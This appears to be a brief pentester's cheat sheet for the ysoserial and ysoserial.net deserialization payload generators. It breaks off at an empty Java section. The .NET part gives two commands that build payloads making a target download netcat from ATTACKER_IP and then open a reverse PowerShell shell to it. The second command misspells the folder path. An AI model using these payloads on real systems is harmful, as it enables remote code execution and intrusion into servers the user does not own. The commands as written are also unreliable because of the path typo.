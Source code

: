 # Ysoserial Deserialization Payload Generator

## Languages supported: .NET ASP, Java

## Repos: 

### https://github.com/frohoff/ysoserial (Java)

### https://github.com/pwntester/ysoserial.net (.NET ASP)

### Usage:

## .NET Deserialization

 - unzip the zipped ysoserial file if you have downloaded it from the releases of the repository
 
 - .\ysoserial.exe -f JavaScriptSerializer -o base64 -g ObjectDataProvider -c "cmd /c curl ATTACKER_IP/nc.exe -o C:\ProgramData\nc.exe"

 - .\ysoserial.exe -f JavaScriptSerializer -o base64 -g ObjectDataProvider -c "cmd /c C:\ProrgamData\nc.exe -e powershell ATTACKER_IP PORT"

## Java

 - 
